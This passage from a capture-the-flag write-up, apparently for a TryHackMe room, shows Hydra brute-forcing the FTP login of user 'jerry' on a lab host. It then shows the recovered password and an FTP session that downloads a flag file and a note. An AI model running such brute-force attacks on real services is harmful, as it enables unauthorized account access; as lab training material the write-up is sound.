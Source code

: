 ```bash
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "      " - 3 of 14344409 [child 2] (0/0)                       
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "       " - 4 of 14344409 [child 3] (0/0)                      
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "        " - 5 of 14344409 [child 4] (0/0)                     
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "         " - 6 of 14344409 [child 5] (0/0)                    
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "          " - 7 of 14344409 [child 6] (0/0)                   
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "           " - 8 of 14344409 [child 7] (0/0)                  
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "            " - 9 of 14344409 [child 8] (0/0)                 
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "               " - 10 of 14344409 [child 9] (0/0)             
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "                  " - 11 of 14344409 [child 10] (0/0)         
...
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "prumpy" - 1 of 1 [child 0] (0/0)                                                                                                                                                  
[21][ftp] host: 10.10.219.90   login: jerry   password: prumpy                                                      
[STATUS] attack finished for 10.10.219.90 (waiting for children to complete tests)                                  
1 of 1 target successfully completed, 1 valid password found                                                        
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-10 16:28:01    
```

![Many hours later](https://i.kym-cdn.com/photos/images/original/000/401/463/ee2.png "Many hours later")

And voilà, we have a password: __prumpy__.
Connect to FTP with jerry:prumpy and let's find out what is hide inside.

```bash
$ ftp 10.10.219.90 
Connected to 10.10.219.90.
220 TryHackMe Networking CTF!
Name (10.10.219.90:burso): jerry
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,219,90,89,219).
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0              33 Feb 23  2019 flag1
-rw-rw-r--    1 1001     1001          141 Feb 23  2019 note
226 Directory send OK.
ftp> get flag1
227 Entering Passive Mode (10,10,219,90,89,226).
150 Opening BINARY mode data connection for flag1 (33 bytes).
226 Transfer complete.
33 bytes received in 0.000288 seconds (112 kbytes/s)
ftp> get note
227 Entering Passive Mode (10,10,219,90,89,216).
150 Opening BINARY mode data connection for note (141 bytes).
226 Transfer complete.
141 bytes received in 0.000263 seconds (524 kbytes/s)
```